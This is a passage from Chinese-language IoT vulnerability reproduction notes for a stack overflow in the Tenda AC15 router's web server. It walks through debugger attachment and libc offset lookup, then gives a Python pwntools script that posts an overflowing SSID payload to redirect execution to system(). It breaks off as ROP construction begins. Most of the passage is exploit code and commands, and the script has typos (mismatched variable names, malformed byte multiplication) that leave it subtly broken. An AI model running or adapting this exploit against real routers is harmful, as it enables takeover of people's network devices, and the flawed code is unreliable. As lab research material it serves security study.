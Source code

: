 27、开启http程序后

~~~apl
ps aux | grep httpd. # 找到httpd 的进程
./gdbserver :1233 --attach httpd 进程号  #  开启gdb服务
pwndbg ./httpd  #  在 宿主机中链接
vmmap  # 查看基地址 由于上面描述可以得知 我们要找的是 libc 中靠前的  那就是 0x76dab000
~~~



![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-5.png)

28、接下来就是需要我们去libc里找一个字符串来去覆盖到src中去。把`libc.0.so`丢入IDA

~~~apl
我们找到了 home  也就是 0x00064144
顺便我们找一个可以跳转的地址two_jp_addr 为 system  0x0005A270
~~~

29、接下来构造一个发包的脚本(在宿主机建立)

~~~python
import requests
from pwn import *

ji_addr=0x76dab000  # 基地址 libc 的地址
one_jg_addr=ji_addr + 0x00064144 # 为了去填充下面的src(str类型)
system_addr=0x0005A270 + ji_addr  # libc中的system函数作为跳转

payload=b'a'*(0x60)+p32(one_jp_addr)+b'b'(0x18)+p32(system_addr)
url="http://192.168.3.3/gofrom/fast_setting_wifi_set"
cookie={"Cookie":"password=qweqwe"}
data={"ssid":payload}

response=requests.post(url,cookies=cookie,data=data)
response=requests.post(url,cookies=cookie,data=data)
~~~

30、gdb链接好以后运行脚本发包

~~~apl
b *0x67070、67088、6775c  #断点打在了第一个 strcpy 的前几步
C  #  运行
--------------
Python3 exp_ac15.py # 宿主机发包
--------------
n  #  宿主机接到后走单步 并观察 gdb 动调  可以看到 0x5a270 formGetSystemStatus+8580跳转成功
~~~

31、跳转成功后可以开始构造我们的`ROP`了

~~~c
// 先去 IDA 中查看 libc 中的 system 的函数
int __fastcall system(int a1) // 可以看到只有一个参传进来
{
............
}
~~~

